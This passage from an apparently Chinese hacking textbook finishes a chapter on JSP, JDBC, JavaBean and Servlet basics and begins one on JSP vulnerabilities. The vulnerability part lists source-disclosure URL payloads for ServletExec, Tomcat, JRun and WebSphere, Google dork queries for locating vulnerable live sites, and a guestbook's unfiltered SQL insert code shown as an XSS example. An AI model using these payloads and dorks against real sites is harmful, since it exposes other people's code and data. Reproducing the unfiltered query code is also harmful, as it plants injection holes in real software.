Connection connection_name = DriverManager.getConnection("驱动类型:数据源", "用户名", "密码")
```

其中，`connection_name` 是程序员定义的连接名称。

当驱动类型是 JDBC–ODBC 时用 `JDBC:ODBC`，是 JDBC 就用 `JDBC`。不同数据库的连接可能会有一些不同，下面看看 SQL Server 和 MySQL 数据库。

SQL Server 数据库连接为：

```java
Connection conn = DriverManager.getConnection("jdbc:microsoft:sqlserver://主机:端口号;DatabaseName=数据库名", "用户名", "密码");
```

比如连接本地机器的 `hack` 数据库，用 `sa` 用户名，密码为 `hack`：

```java
Connection conn = DriverManager.getConnection("jdbc:microsoft:sqlserver://localhost:1433;DatabaseName=hack", "sa", "hack");
```

对于 MySQL 数据库的连接为：

```java
Connection conn = DriverManager.getConnection("jdbc:mysql://主机:端口号:数据库名", "用户名", "密码");
```

连接数据库时可能会失败，所以常常在程序中捕获异常。对于异常处理，JSP 里并没有提及，这是因为在第 9 章 PHP 基础中已经讲了，这里不重复。异常处理也可以算是一种安全技术，和黑客技术有一些关系，不过有前面对异常处理的基础知识了解就足够了。在后面会讲解一个关于利用异常处理漏洞的例子。还是回到数据库中来，为了防止连接数据库时出现异常，可引用异常处理代码，如下所示：

```java
try {
    // 这里引用的是数据库连接代码，如：
    Connection conn = DriverManager.getConnection("jdbc:microsoft:sqlserver://localhost:1433;DatabaseName=hack", "sa", "hack");
} catch (SQLException e) { // SQLException 是专门用来处理数据库异常的，由系统提供
}
```

#### （3）Connection

一个 Connection 表示与一个特定数据库的会话，Connection 类的常用方法如下：

- `close()`  
  用来立即释放 Connection 的数据库和 JDBC 资源；如果发生了一个致命错误也将使 Connection 关闭。调用方法为：  
  `connectionObjectName.close()`  
  `connectionObjectName` 是生成的 Connection 类对象名称。

- `createStatement()`  
  在程序中可以用 Connection 类对象的方法 `createStatement()` 来创建 SQL 语句，如下所示：  
  `Statement sql_statement_name = connection_name.createStatement();`  
  `sql_statement_name` 是新创建的 Statement 类对象名称，`connection_name` 是已有的数据库连接对象名称。用这种方法返回的 SQL 语句可用于执行基本 SQL 语句。

#### （4）Statement

Statement 类对象代表 SQL 语句，用于将 SQL 语句发送到数据库。Statement 对象用于执行一条 SQL 语句并获得结果。在任何时候每条语句仅能打开一个 ResultSet，ResultSet 是语句执行后返回的记录结果集。Statement 类的常用方法如下：

- `close()`  
  用来关闭语句，同时立即释放该语句的数据库和 JDBC 资源；如果它有相应产生的 ResultSet，则 ResultSet 也被关闭。调用方法为：  
  `StatementObjectName.close()`  
  其中 `StatementObjectName` 是 Statement 类对象名称。

- `execute()`  
  用来执行一条可能返回多个结果的 SQL 语句。返回值是一个布尔值：如果下一个结果是 ResultSet，返回 `true`；如果它是一个更新数量或没有其他结果，返回 `false`。调用方法为：  
  `StatementObjectName.execute(sqlstring)`其中，`sqlstring` 是一个 SQL 语句。

- 3. `executeQuery()`

用来执行一条返回单个 `ResultSet` 的语句，返回值是由查询产生的数据的 `ResultSet`。调用方法为：`StatementObjectName.executeQuery(sqlstring)`。

其中，`sqlstring` 是静态的 `SELECT` 语句。

- 4. `executeUpdate()`

执行一条 `INSERT`、`UPDATE` 或 `DELETE` 语句，或是没有返回值的 SQL 语句。调用方法为：`StatementObjectName.executeUpdate(sqlstring)`。

其中，`sqlstring` 是一条 `INSERT`、`UPDATE` 或 `DELETE` 语句，或是没有返回值的 SQL 语句。

- 5. `getResultSet()`

用于得到当前 `ResultSet` 的结果，调用方法为：`StatementObjectName.getResultSet()`。

前面我们已经多次提到了 `ResultSet`，其实 `ResultSet` 类是用于接收执行 SQL 查询语句得到的记录集。它用 `get` 方法可得到记录中不同列的数据，用它的 `next()` 可把当前记录指针往下移动一行。在 `ResultSet` 类中含有很多 `getXXX()` 方法，它们的作用都是获得当前行的列值，例如 `getInt()` 函数作用是把当前行的列值作为一个 `int` 值获取；`getString()` 函数作用是把当前行的列值作为一个 `String` 值获取。

下面我给大家举个例子，用来说明我们上面所介绍的知识，代码如下：

```jsp
<%@ page contentType="text/html;charset=GB2312" %> //JSP 指令
<%@ page import="java.sql.*" %>    //包含 sql 包，用于数据库操作
<HTML>
<BODY>
    <% Connection con;    //创建一个 Connection 类的对象 con
       Statement sql;     //创建一个 Statement 类的对象 sql
       ResultSet rs;      //创建一个 ResultSet 类的对象 rs
       try  //异常处理
       {
           Class.forName("sun.jdbc.odbc.JdbcOdbcDriver");   //加载驱动
       }
       catch(ClassNotFoundException e)
       {
           out.print("类找不到!");  //出现异常情况时的处理
       }
       try
       {
           con=DriverManager.getConnection("jdbc:odbc:testDB");
//创建一个数据库连接对象
           sql=con.createStatement();
//利用 Connection 类的 createStatement() 方法创建 SQL 语句对象
           rs=sql.executeQuery("SELECT * FROM userTable");
//执行 SQL 语句，并返回到 ResultSet 类的对象 rs
           out.print("<Table Border>"); //输出表格
           out.print("<TR><td colspan=8 align=center>用户数据</td></tr>");
           out.print("<TR>");
           out.print("<Td width=100 >"+"用户 ID 号");
           out.print("<Td width=50 >"+"用户名");
           out.print("<Td width=100>"+"用户真实姓名");
           out.print("<Td width=50>"+"年龄");
           out.print("<Td width=50>"+"性别");
           out.print("<Td width=100>"+"联系地址");
           out.print("<Td width=100>"+"联系电话");
           out.print("<Td width=100>"+"添加时间");
           out.print("</TR>");
           while(rs.next())
           { out.print("<TR>");
               out.print("<TD >"+rs.getLong(1)+"</TD>");
               //利用 ResultSet 类的 getLong() 方法获得当前行的列值
               out.print("<TD >"+rs.getString(2)+"</TD>");
               //利用 ResultSet 类的 getString() 方法获得当前行的列值
               out.print("<TD >"+rs.getString(4)+"</TD>");
               out.print("<TD >"+rs.getInt("user_age")+"</TD>");
               out.print("<TD >"+rs.getString("user_sex")+"</TD>");
               out.print("<TD >"+rs.getString("user_address")+"</TD>");
               out.print("<TD >"+rs.getString("user_telephone")+"</TD>");
               out.print("<TD >"+rs.getString("add_time")+"</TD>");
               out.print("</TR>");
           }
           out.print("</Table>");
           con.close();
       }
       catch(SQLException e1)
       {
           out.print("SQL 异常!");
       }
    %>
</BODY>
</HTML>
```

上面的程序先用 `Class.forName("sun.jdbc.odbc.JdbcOdbcDriver");` 语句加载驱动，再用类方法 `DriverManager.getConnection("jdbc:odbc:testDB");` 得到连接对象，用连接对象的 `createStatement()` 方法创建 SQL 语句对象，通过语句对象来执行 SQL 查询，得到结果记录集后，用 `next()` 方法移动记录指针从而输出所有记录。

前面的代码我们是利用 JDBC-ODBC 方式连接的，如果是 JDBC 方式的话，我们只需要改动两个地方就可以了。一个是将 `Class.forName("sun.jdbc.odbc.JdbcOdbcDriver");` 改成 `Class.forName("com.microsoft.jdbc.sqlserver.SQLServerDriver");`。第二个是将 `DriverManager.getConnection("jdbc:odbc:testDB");` 改成 `DriverManager.getConnection("jdbc:microsoft:sqlserver://localhost:1433;DatabaseName=hack", "sa", "hack");`，就可以实现以 JDBC 的方式来连接数据库。从返回的结果来看，不管是用哪种连接方式，结果都是一样的。

数据库连接是一种重要的、有限的、昂贵资源，当访问网站用户越来越多时显得尤为突出。这个时候需要加强对数据库连接的管理，而且显著地影响到了整个应用程序的伸缩性和健壮性，影响到程序的性能。这个时候 Java 提供了一种叫做数据库连接池（Connection Pool）的技术，它可以明显地提高数据库操作的性能。数据库连接池负责分配、管理和释放数据库连接，它允许应用程序重复使用一个现有的数据库连接，而不是重新建立一个。

对于数据库连接池技术的更多内容，大家在系统性学习 JSP 编程的时候可以去具体学习，光盘中自带的 JSP 电子书就是一个很好的选择。

### 12.6 JavaBean 和 Servlet 简介

#### （1）JavaBean 简介

在本节为大家介绍 JavaBean 和 Servlet，其实它们对我们分析 JSP 代码漏洞没有很大的直接联系，因为根本就无法看到它们里面代码。不过它们是 JSP 架构系统常用的组件，所以这里给大家讲的目的并不是为了找它们的漏洞，是为了学习它们，从而让我们能够更加全面地了解一个 JSP 的架构，让我们在分析具体的 JSP 代码时有一个比较清晰和完整的思路。

JavaBean 是 Java 程序设计应用中的一种组件技术。在 JSP 中，可以引用它来完成一些复杂的工作，从而简化编程的难度。SUN 公司把 JavaBean 定义为一个可重复使用的软件组件。其实 Java 开发的 JavaBean 就是一个类，一个用面向对象编程中封装了属性和方法、用来完成特定某种功能的类。

编写 JavaBean，其实质上就是编写一个 Java 类，设计 JavaBean 类就是要设计这个 JavaBean 的属性和方法，类的方法的命名有以下规则：

如果成员变量的名字是 `xxxx`，则相应地有两个用来得到成员变量值和设置变量值的方法，它们分别是 `getXxxx()` 和 `setXxxx()`。即如下两种形式：

```java
public dataType getXxxx()

public void setXxxx(dataType data)
```

其中，`dataType` 是成员变量的数据类型；参数 `data` 是给成员变量赋予的值。还要注意的是 `getXxxx()` 和 `setXxxx()` 中的变量名字的第一个字母为大写。还有访问成员变量的方法都设为 `public`。

因为 JavaBean 是一个类，所以编写的 JavaBean 的代码保存的后缀名是 `java`，而不是 `jsp`。因为是 `java` 文件，所以首先就是要用 JDK 编译这个文件，编译后就得到 `class` 文件。编译 JavaBean 之后就是要对其进行部署，也就是让 JavaBean 在哪里有效，比如在整个 JSP 系统中都有效，或者在当前应用时有效。

部署 JavaBean 有两种方式。第一种是部署 `class`，就是部署我们刚才编译生成的 `class` 文件，让它在哪个地方有效、在哪个地方无效；第二种是部署 `jar`，对于 `jar` 这里给大家解释一下，它是一个压缩包，可以包含一组类及其相关资源，把这些文件组成统一的一个文件——JAR 文件。有了 JAR 文件，不必像上面的 `class` 文件一样一个一个地部署，因为在一个 JAR 文件中已经包含了多个 `class` 文件，所以可以用一个 JAR 文件做一次部署。

这里大家要明白一点，一般情况下，我们得到一套 JSP 系统后，如果其中有 JavaBean 结构，我们是无法得到 JavaBean 这个类中的源代码的，因为 JavaBean 源代码被编译成了 `class` 文件了。如果仅仅是这样，我们还是可以利用工具将 `class` 文件反编译得到 `java` 文件代码。但是目前的编译器一般都自带了一个叫混淆器的工具，`class` 文件经过它混淆之后我们是无法再反编译得到源代码的。

### ①、在 JSP 中应用 JavaBean

要在 JSP 中应用 JavaBean，必须使用 JSP 指令标签 `useBean` 来声明 JavaBean 的实例。这个指令标签的语法如下：

`<jsp:useBean id="给 JavaBean 实例取的名称" class="Bean 类名" scope="JavaBean 实例的有效范围"></jsp:useBean>`

或者

`<jsp:useBean id="给 JavaBean 实例取的名称" class="Bean 类名" scope="JavaBean 实例的有效范围"/>`

`id` 的设置我们可以任意；`class` 为 JavaBean 的类名，如果类之上还有包，则此参数用形如“包名.类名”的形式；`scope` 的取值有四种，这里就不再重复了，如果还有不清楚的话，可以参考前面 12.2.4 节中对 `useBean` 指令的介绍。

在 JSP 页面中要能使用 JavaBean，还应事先在文件头部导入这个 JavaBean 对应的类，如：`<%@ page import="类名"%>`。

如果还有包，则要在类名前面加上包名，形如“包名.类名”。

### ②、设置与得到 Bean 的属性值

在前面我们介绍了使用 `getXxxx()` 和 `setXxxx()` 方法来得到和设置 JavaBean 的属性值，同时我们还可以利用动作标签 `getProperty` 和 `setProperty` 分别用来获取和修改 JavaBean 的属性值。对于 `getProperty` 和 `setProperty` 这两个指令，在 12.2.4 中已经做过详细的介绍，在这里就不细说了，还有不懂的话可以参考 12.2.4 节。

前面给大家讲了一个计数器的例子，下面我还用这个例子来给大家说明如何具体应用 JavaBean，其中 JavaBean 类的代码 `counter.java` 文件的代码如下所示：

```java
public class Counter
{
    long count=0;
    public long getCount()  //建立 getCount 方法用于总的访问量
    {
        return count;
    }
    public synchronized long setCount()  //建立 setCount() 方法用于将 count 加 1
    {
        count++;
        return count;
    }
}
```

上面建立一个 `Counter` 的公共类，类中声明了一个成员变量 `count`，这个变量用于记录访问者的累积数字。`getCount()` 方法得到这个数字，`setCount()` 方法用于把数据加 1。编写好了上面的代码之后就用 JDK 编译一下，得到了 `counter.class` 文件。而 JSP 文件的代码如下所示：

```jsp
<%@ page contentType="text/html;charset=GB2312" %>  //显示中文的 JSP 指令
<%@ page import="Counter" %>  //用于包含 JavaBean 的类
<jsp:useBean id="counter" class="Counter" scope="application">
</jsp:useBean>  //用于声明 JavaBean 的实例
<HTML>
<head>
<title>用 JavaBean 作网站计数器</title>
</head>
<BODY>
<% if(session.isNew())    //如果是一个新的会话
    counter.setCount();   //调用 JavaBean 中 counter 的 setCount() 方法
%>
<P><P>欢迎访问本站，您是第
    <%=counter.getCount()%>   //输出总的访问量
个访问用户。
</BODY>
</HTML>


```

上面的代码把 JavaBean 实例 `counter` 的范围声明为 `application`，表示在应用期间都有效，即从 Web 服务器开启至服务器关闭期间有效。程序运行的结果如图 12-9 所示。
图 12-9 引用 JavaBean 后的计数器结果

#### （2）Servlet 简介

Servlet 是用 Java 编写的运行在 Web 服务器中的程序。Servlet 其实就是 Java 代码用于 Web 的一个技术，要开发 Servlet 需要掌握比较多的 Java 知识，当然我们这里是不可能给大家讲解如何编写 Servlet 了，只是让大家感性地认识一下 Servlet 的各种常识，这可以让我们在分析代码的时候思路更加清晰。

其实我们的 JSP 页面在编写完毕后，在 Web 引擎中运行前也会被编译器先转换成为 Servlet，然后再编译成字节码，因此 JSP 页面与 Servlet 其实是一一对应的。

- 一个 Servlet 的生命周期主要有三个过程：
  1. Servlet 的初始化。Servlet 实际上是一个类，当第一次被客户端请求时，Web 服务器引擎首先生成这个 Servlet 类的对象，并加载这个对象，通过这个对象的 `init()` 方法完成一些初始化的工作。
  2. 生成的 Servlet 类对象调用 `service()` 方法来响应请求。
  3. Servlet 类对象自第一次被生成后将常驻在内存中直到 Web 服务器被关闭，当再次请求将直接从内存中取出对象来响应请求。当 Web 服务器关闭时，将调用 Servlet 类对象的 `destroy()` 方法清除这个对象。

在上面的三个过程中，`init()` 方法只被调用一次，即第一次被请求时调用；`service()` 方法在每次 Servlet 被请求时都会被执行。

要进行 Servlet 的开发就需要用到 `javax.servlet` 和 `javax.servlet.http`。对于我们的 Web 开发，只需要用到 `javax.servlet.http` 中的类就可以了。

当客户端请求 Servlet 时，服务器端将接收两个类的对象，一个是 `ServletRequest`，用于描述客户端对服务器端的请求；另一个是 `ServletResponse`，用于描述服务器端对客户端的响应。

Servlet 类从 `HttpServlet` 类中扩展而来。在进行 Servlet 开发时一般都会用到下面的方法：

- 1. `init()`

这个方法用于完成一些初始化的工作，如数据库连接的初始化、设置变量的值等。当 Servlet 第一次被请求时调用该方法，再次请求时就不会了。调用的格式为：

```java
init(ServletConfig config) throws ServletException
```

当方法中出现了异常时会抛出 `ServletException` 异常。

- 2. `doPost()` 或 `doGet()`

这两个方法分别用来处理 HTTP 的 `post` 请求和 `get` 请求。客户端请求数据时用 `post(get)` 方法时，如表单的请求 `method` 为 `post(get)`，则接收数据的 Servlet 就会调用 `doPost()(doGet())`。调用它们的格式为：

`doPost(或者 doGet)(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException`

- 3. `service()`

这个方法用来处理对客户端的响应，其语法格式为：

`service(HttpServletRequest request, HttpServletResponse response) throws IOException`

每个客户端的请求都会被调用 `service()` 方法，每个客户端对应的此方法是不同的，互不相干。

- 4. `destroy()`

当 Web 服务关闭时就会调用 Servlet 的 `destroy()` 方法。

下面我们看看一个最简单的 Servlet，文件名为 `firstServlet.java`，其代码如下：

```java
import java.io.*;  // 引用 io 包中的所有类，在 Java 中用 import 关键字来引用包
import javax.servlet.*;  // 引用 servlet 包中的所有类
import javax.servlet.http.*;

public class firstServlet extends HttpServlet
    // firstServlet 类继承于 HttpServlet 类
{
    public void init(ServletConfig config) throws ServletException
    // 完成 Servlet 的初始化工作
    {
        super.init(config);
    }

    public void service(HttpServletRequest request, HttpServletResponse response)
    throws IOException
    // 利用 service 方法来完成对客户端访问请求的响应
    {
        // 设置 mime
        response.setContentType("text/html;charset=GB2312");
        // 用于设置显示中文
        PrintWriter out = response.getWriter();
        out.println("<HTML><BODY>");
        out.println("这是一个简单的 servlet。");
        out.println("客户端 IP 地址是：" + request.getRemoteAddr() + "<br/>");
        out.println("</body></html>");
    }
}
```

程序中的 `init()` 方法直接继承于 `HttpServlet` 类中的 `init()` 方法，用 `setContentType()` 设置 mime 类型用于显示中文，用 `HttpServletResponse` 类对象 `response` 的 `getWriter()` 来得到输出流，用 `HttpServletRequest` 类对象 `request` 的 `getRemoteAddr()` 方法得到客户端相关信息。

端的 IP 地址。

上面的代码我们保存为 `firstServlet.java` 后，用 JDK 编译成 `firstServlet.class` 文件，这个过程就是编译 Servlet。和 JavaBean 一样，在编译完之后就要部署 Servlet。部署 Servlet 很简单，有两种方法：一是将字节码文件 `.class` 拷贝到 Tomcat 安装目录 `classes` 的子目录下，这样这个 Servlet 在所有应用中都可以使用；第二种是将字节码文件 `.class` 拷贝到当前应用的 `WEB-INF/classes` 子目录下，这样这个 Servlet 仅在当前应用中有效。这里我们把 `firstServlet.class` 拷贝到 Tomcat 安装目录 `classes` 的子目录下，然后在浏览器中输入 `http://localhost/servlet/firstServlet`，即运行 Servlet，运行结果如图 12-10 所示。

图 12-10

在本节中简单给大家介绍了一下 JavaBean 和 Servlet，相信大家已经对它们有了一定认识了。在我们实际的 JSP 系统中，常常会用它们搭配开发系统，比如 JSP+Servlet。现在大家都知道了 JavaBean 和 Servlet 都要经过编译后才运行，所以在正常情况下，如果一个系统中采用了这两种技术，一般我们是看不到代码的。虽然现在有了对这些 class 进行反编译的工具，不过不要忘记了，大部分搞 Java 开发的程序员都知道用混淆器将代码进行混淆，所以一般情况下是无法得到 JavaBean 和 Servlet 的源代码的。当然，我们在进行代码分析的时候还是要试一下对其进行反编译，如果这个系统没有采用混淆器进行混淆的话，那我想开发这个系统的程序员也太没有安全意识了，其系统可能根本没有任何安全措施，我们可以轻易攻破。

到这里，我们的 JSP 基础就给大家讲完了。在本章中，有一些基础知识我没有提到，这是因为在前面的学习过程中我们已经学过了，所以这里不再重复。如果有什么基础不懂的话，可以再去看前面几章的基础知识，从书的前到后它们都是连在一起的，所以大家一定要跟上我的思路。还有一点就是本章中还涉及一定的 Java 基础知识，如果有什么地方还理解不透的话，可以去看一下 Java 方面的书籍，在光盘中我已经为大家收录了。

对于 JSP 的知识，我这里也只提及了一些与黑客技术紧密相关的。还有很多没有讲到，所以要进行 JSP 系统开发的话，还有很多东西要学。JSP 系统不同于前面的 ASP 和 PHP，用它来做的系统可以非常复杂，比如构建一个 J2EE 系统等等。而且由于 JSP 系统的特殊性，很多地方我们是得不到源代码的，这样就加大了我们分析代码漏洞的难度。

如果一个 JSP 系统的开发仅仅是 JSP 的知识，那么它和 ASP 及 PHP 就没什么很大区别，对于这样的系统我们可以轻易找出其漏洞。不过目前仅仅利用 JSP 知识来开发的系统比较少，大部分系统都是联合开发，例如 JSP+JavaBean 或者 JSP+Servlet。当然，这些并不能阻止我们对它们进行漏洞挖掘，而且目前国内对 JSP 系统漏洞方面的挖掘还是比较少，有很大的发挥空间。相信随着 JSP 流行会有越来越多的系统被开发出来，而我们的任务就是挖掘它们的漏洞。在下一章我将用实例为大家讲述目前在 JSP 系统中常见的安全漏洞，一定很期待吧！

**声明：本章中部分 JSP 的基础知识参考了由电子工业出版社出版的《JSP 网络编程》，该书由邓子云、张赐编著。**

你从本章可以学到如下几点：

- 1、JSP 源代码泄露漏洞分析、查找及利用
- 2、跨站脚本漏洞分析
- 3、注入漏洞代码分析
- 4、JSP 安全编程技术简介
- 5、JSP 木马编写技术
- 6、其他的安全问题

## 第十三章 JSP 程序常见漏洞

上一章已经为大家介绍了 JSP 的各种基础知识，相信大家对它已经有了一个基本的了解。有了这些基础我们就可以分析 JSP 程序的漏洞了。本章为大家介绍一些常见的 JSP 漏洞。因为 JSP 是编译性语言，而且编写过程也比较规范，我们可以用 JavaScript+HTML+JSP 的方式来开发 JSP 系统。但是更多的系统却是采用 Java 软件的开发流程来开发，过程如下：

- 1. 编写源代码。
- 2. 通过编译软件（如 J2SDK 等）编译源代码，编译后产生类文件。
- 3. 将软件的所有类和一个清单文件一起打包，生成包裹文件。
- 4. 最后通过混淆器把所有文件混淆，以防止被反编译。

采用这种方法开发的 JSP 系统其安全性就大大提高了，执行效率也比较高。虽然 JSP 比起 PHP 和 ASP 要安全一些，但这并不代表它就没有安全漏洞。所以，本章就为大家介绍一下目前 JSP 出现的主要安全漏洞。

### 13.1 JSP 源代码泄露

JSP 源代码暴露是一个比较老的漏洞了，出现这个漏洞的主要并不是 JSP 的原因，而是和搭建 JSP 环境的服务器有着密切关系。下面就来谈谈 Web 服务器和 JSP 服务器中存在的这些漏洞。

Unify eWave ServletExec 是一个 Java/Java Servlet 引擎插件，主要用于 Web 服务器，例如：Microsoft IIS、Apache、Netscape Enterprise 服务器等等。当一个 HTTP 请求时，我们在 URL 中添加下列字符之一，ServletExec 将返回 JSP 源代码文件。添加的字符有：`.%2E`、`%20`、`%5C`、`%20`、`%00`、`+`、`\`。当我们成功利用该漏洞将导致泄露指定 JSP 文件的源代码，例如：使用下面任意一个 URL 请求将输出指定 JSP 文件（login.jsp）的源代码：

```text
(1)、http://www.xxxx.com/xxxxx/jsp/login.jsp.
(2)、http://www.xxxx.com/xxxxx/jsp/login.jsp%2E
(3)、http://www.xxxx.com/xxxxx/jsp/login.jsp+
(4)、http://www.xxxx.com/xxxxx/jsp/login.jsp%2B
(5)、http://www.xxxx.com/xxxxx/jsp/login.jsp\
(6)、http://www.xxxx.com/xxxxx/jsp/login.jsp%5C
(7)、http://www.xxxx.com/xxxxx/jsp/login.jsp%20
(8)、http://www.xxxx.com/xxxxx/jsp/login.jsp%00
```

Tomcat 这个服务器我们在前面已经使用过了，利用它来搭建 JSP 环境。不过在 Tomcat 3.1 版本中存在一个安全问题，在这个版本下搭建的系统，当我们提交一个不存在的文件时就会暴露出网站网页的全路径。比如，我们提交一个不存在的 hack.jsp 文件时，系统就会暴露出该网站网页的全路径，如图 13-1 所示。

图 13-1 暴露路径

我们知道 Tomcat 是文件名大小写敏感的，而 Java Server Pages（JSP）类型的文件是以“.jsp”扩展名在 Tomcat 上注册，所以“.jsp”和“.JSP”是不同类型的文件扩展名。如果提交有“.JSP”的链接给 Tomcat，而 Tomcat 找不到“.JSP”，就会以默认的“.text”文件类型（文本文件）来响应请求。因为在 Windows 操作系统中大小写文件名是非敏感的，所以被请求的文件会以文本形式送出。即如果 JSP 网站采用的是 Windows 操作系统，那么我们就可以看到该文件的源代码。如果在 UNIX 服务器上会出现“file not found”的错误信息，如图 13-2 所示。

图 13-2 UNIX 返回的信息

Tomcat 的一些版本有泄露源代码的漏洞，如果在浏览器中调用 JSP 页面时将该文件后缀改成大写，这个 JSP 文件的源代码将完全输出到浏览器中（也许浏览器窗口中什么都没有，这时你只需查看 HTML 源文件就可以发现）。解决方法很简单，把各种后缀的组合全部写到 `Tomcat_Home\conf\web.xml` 里就可以了，这样 Tomcat 会将不同后缀名的 JSP 分开对待，就不会泄露代码了，如添加 JSP、Jsp、JSp、jSP、jsP 等等。利用数学上的排列就可以得出有八种情况，即 2*2*2=8。

ALLAIRE JRUN 是一个基于 JSP 和 Java Servlet 开发的 Web 应用套件。每个 Web 应用程序目录中包含一个 WEB-INF 目录，这个目录包含一些 Web 应用程序的 CLASS 和预编译 JSP 文件、服务器端库文件、会话信息和文件，如 web.xml、webapp.properties 等等。

JRUN 曾经出现过一个包含漏洞，它允许远程用户查看 WEB-INF 目录内容。通过请求一个包含“/”字符的 URL，就会显示 WEB-INF 目录下面的所有目录，达到遍历目录的结果，导致泄露非常多的敏感信息。攻击方法就是在网站 URL 后添加“/WEB-INF”即可看到遍历信息了，如图 13-3 所示，就是我利用这个漏洞所进行的攻击结果。

图 13-3 /WEB-INF 遍历漏洞

本来这个漏洞我也是想这里就结束了，不过后来我想到了 Google Hack 技术。记得前面介绍给大家的时候提到过“to parent directory”关键字。那我们再仔细看看图 13-3 中的内容，可以发现也存在一个独一无二的关键字“Index of //WEB-INF”。所以我们可以利用 Google Hack 技术来查找所有存在这个漏洞的网站，我们只需要搜索 `intext:"Index of //WEB-INF"`，就可以找出所有存在这个漏洞的网站了，如图 13-4 所示。随便打开就可以看到其中的文件了，如图 13-5 所示。

图 13-4 搜索到存在漏洞的网站

图 13-5 漏洞网站

前面我们已经两次提到了 web.xml 这个文件，它属于一个配置文件。不过从我们利用搜索 /WEB-INF 漏洞搜索到的网站来看，很多网站都含有 web.xml 这个文件，如图 13-5 所示。所以我们还可以利用 web.xml 作为关键字，搜索出很多 JSP 网站因配置不当引起的遍历漏洞，当然也包括 /WEB-INF 遍历漏洞。不过只使用 web.xml 关键字是没有用的，必须还要加上关键字“Parent Directory”。即搜索 `intext:"Parent Directory"+"web.xml"` 就可以找出存在遍历漏洞的 JSP 网站了，结果如图 13-6 所示，共有 49500 项结果。

图 13-6 搜索 `intext:"Parent Directory"+"web.xml"` 的结果

当然，不仅仅只有上面两个关键字可以找出 JSP 中存在遍历漏洞的网站，后来又根据我的挖掘，发现搜索关键字 `intext:"Index of /tomcat/"` 的效果更好，可以搜索出 56200 项结果，如图 13-7 所示。

图 13-7 搜索 `intext:"Index of /tomcat/"` 的结果

IBM WebSphere Application Server 是一个完善的、开放的 Web 应用服务器。不过在 3.0.2 版本存在暴露源代码漏洞，IBM WebSphere Application Server 允许攻击者查看 Web Server 根目录以上的所有文件。IBM WebSphere 使用 Java Servlets 处理多种页面类型的解析（如 HTML、JSP、JHTML，等等）。WebSphere 会使用一个默认的 Servlet 作调用。如果文件路径以“/servlet/file/”作开头，这个默认的 Servlet 会被调用，请求的文件会未被解析或编译就显示出来。

这样说可能很多人都理解不了，下面就用例子说明。例如我们请求网站 `http://www.xxx.com/` 中的 login.jsp 文件，正确的请求路径是 `http://www.xxx.com/jsp/login.jsp`。那么，我们访问 `http://www.xxx.com/jsp/servlet/file/login.jsp` 就可以看到 login.jsp 文件的代码了。

和前面一样，Java Server Pages（JSP）类型的文件是以“.jsp”扩展名在 WebSphere Application Server 上注册，WebSphere 是文件名大小写敏感的。所以，“jsp”和“Jsp”是不同后缀名。如果提交有“.JSP”的链接给 WebSphere，而 WebSphere 找不到“.JSP”，就会以默认的“.text”文件类型（文本文件）来响应请求。因为在 Windows 操作系统中大小写文件名是非敏感的，所以被请求的文件会以文本形式送出。即如果 JSP 网站采用的是 Windows 操作系统，那么我们就可以看到该文件的源代码。如果在 UNIX 服务器上会出现“file not found”的错误信息。

上面的这些就是因为服务器导致 JSP 代码泄露的漏洞，虽然上面很多漏洞已经不存在了，但是仍然有一些傻瓜网站存在，/WEB-INF 漏洞就是一个典型，利用 Google Hack 还是找出了 200 个这样的网站。

对于这类因为服务器原因导致代码泄露的漏洞，这里我给大家推荐一个好工具，是由 lcx 写的，界面如图 13-8 所示。

图 13-8 JSP 暴源码及目录工具

使用方法是：第一个输入框输入域名，第二个输入框输入路径，第三个输入框输入文件名，不过后缀名 jsp 不要写上去。例如我们想查看 `http://integra.sunsite.dk/common/body.jsp` 的 body.jsp 代码，那么在第一个输入框中输入 `http://integra.sunsite.dk`，第二个输入框输入 `/common/`，第三个输入框输入 `body` 就可以了，点击按钮之后就是等结果了。如果不存在漏洞，就会返回如图 13-9 所示的结果。

图 13-9 没有漏洞检测的结果

上面的这些就是因为服务器原因导致代码泄露的漏洞，虽然很多漏洞离现在很久了，但是只要灵活运用，还是可以得到意想不到的结果。

### 13.2 跨站脚本攻击漏洞

只要浏览器能够解释 HTML 和 JavaScript 语言，而在服务端又没有很好地对字符进行转换，那么就会发生跨站脚本攻击漏洞。至于它的基础知识这里不重复了，我们直接来分析 JSP 程序中存在跨站脚本漏洞的代码。

只要是在进行 JSP 编程时没有对输入字符进行有效过滤，就会发生跨站脚本漏洞。我分析 JSP 系统的过程中，发现“Jspmo 伊人心留言本 v1.0”就存在一个过滤不严格的地方，导致了跨站漏洞的出现，它的留言界面如图 13-10 所示。

图 13-10 留言界面

我们来看看它是怎么对留言内容进行处理的，文件是 save.jsp，代码如下所示：

```java
String title=request.getParameter("title");    //获得留言的标题
String name=request.getParameter("name");      //获得留言者的名称
String email=request.getParameter("email");    //获得留言者的电子邮件
String web=request.getParameter("web");        //获得留言者的主页
String QQ=request.getParameter("QQ");          //获得留言者的QQ号码
String text=request.getParameter("text");      //获得留言的内容
String p1=request.getParameter("p1");          //获得性别
String p2=request.getParameter("p2");          //获得头像
String pic=null;
String ip=request.getRemoteAddr();             //获得留言者的IP地址
if("http://".equals(web)){web="";}             //判断主页是否为空
if("m".equals(p1)){pic="m"+p2+".gif";}
if("w".equals(p1)){pic="w"+p2+".gif";}
if(name==null||QQ==null||text==null||p1==null||p2==null)
//如果 name、QQ、text、p1、p2 中有一个为空，就发生错误，并返回到 index.jsp 去
{
    out.println("<script language=javascript>alert('不允许直接访问');");
    out.println("location.href('index.jsp');");
    out.println("</script>");
}
//如果不为空，那么就把上面的数据插入到数据库中
else
{
    String sql="insert ...";
    values(0,"+gb2iso(title)+","+gb2iso(name)+","+gb2iso(QQ)+","+gb2iso(email
}
```

```java
1)+", "+gb2iso(web)+", 'y', "+gb2iso(pic)+", "+gb2iso(text)+", "+ip+", now() )";  // gb2iso() 的作用是用于显示中文，并不是进行过滤用的
st.executeUpdate(sql);  // 执行数据库操作
st.close();
con.close();
out.println("<script language=javascript>alert('留言成功!');");
out.println("location.href('index.jsp');");
out.println("</script>");
```

可以看到上面我们留言的数据都是没有进行过滤就插入到了数据库中了，典型的跨站脚本漏洞。不过仍然有一些限制，因为提交数据的页面是在 index.jsp，而处理数据则是在 save.jsp。所以我们再来看看 index.jsp 中的一些代码，它能够限制我们的攻击，关键代码如下所示：

```html
<td style="color:#999900;">主题:</td>
<td width="6"></td>
<td>
    <input name=title type=text class="inp_set1" id="title"
    onFocus="this.style.backgroundColor='#fffdf7'"
    onBlur="this.style.backgroundColor='#FFFFFF'" value="路过" size="30"
    maxlength="12">   // 主题允许输入的最大长度为 12
</td>
</tr>
<tr>
